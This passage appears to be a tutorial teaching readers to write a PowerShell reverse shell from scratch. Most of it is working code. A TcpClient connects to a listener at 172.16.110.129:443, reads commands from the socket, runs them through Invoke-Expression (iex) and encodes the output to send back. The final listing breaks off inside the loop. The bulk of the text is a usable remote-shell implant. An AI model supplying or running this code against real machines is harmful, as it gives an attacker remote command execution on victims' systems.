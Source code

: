 It's the same idea here, our invoke-expression will interpret and execute our string that is passed! But let's try to associate this output with some kind of variable

```powershell
$response = Invoke-Expression $helloCode;
Write-Host $response;
```
This above, will not work because the Invoke-Expression response is a [PSObject Class](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.psobject?view=powershellsdk-7.0.0), that is a generic object type, you can look futher for their inside attributes, but there is a faster way to get this with ***Out-String*** cmdlet, this will be called using pipes and will the get string value (just like toString()) and return to us, that way we can get the string value itself.

```powershell
$response = Invoke-Expression $helloCode | Out-String;
Write-Host $response;
```

Now let's add that in our original code:

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff};
$stream = $client.GetStream()

$size = $stream.Read($buff, 0, $buff.Length);

$command = [System.Text.ASCIIEncoding]::ASCII.GetString($buff, 0, $size);

$command_response = iex $command | Out-String; # Invoke-Expression shorten

$client.Close();
```

Very good, now we can send a bunch of bytes, run that and get the output, we now just need to run a loop to read until there is no more connections and send the output back!

To send our messages back, we need to call the ***write*** method in our stream, it has the same arguments as the read, it gets the buffer to send, where to start and its size, but before sending data we need to be able to encode our string to send the all the bytes, this is easily accomplished by using the ***ASCII.GetBytes*** method, that requires the same arguments as ***GetString***, you see ? Powershell is very modular and intuitive to pick-up, Oh for our while loop we will need to wait the -1 response from the ***Read*** method, because that indicate to our script that the connection was lost!


So finally, our Powershell reverse shell from scratch is:

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff};
$stream = $client.GetStream()


while (($size = $stream.Read($buff, 0, $buff.Length)) -ne -1) { # Until connection die
    $command = [System.Text.ASCIIEncoding]::ASCII.GetString($buff, 0, $size);
    $command_response = iex $command | Out-String; # Invoke-Expression shorten
    $command_back = [System.Text.ASCIIEncoding]::ASCII.GetBytes($command_response, 0, $command_response.Length);
```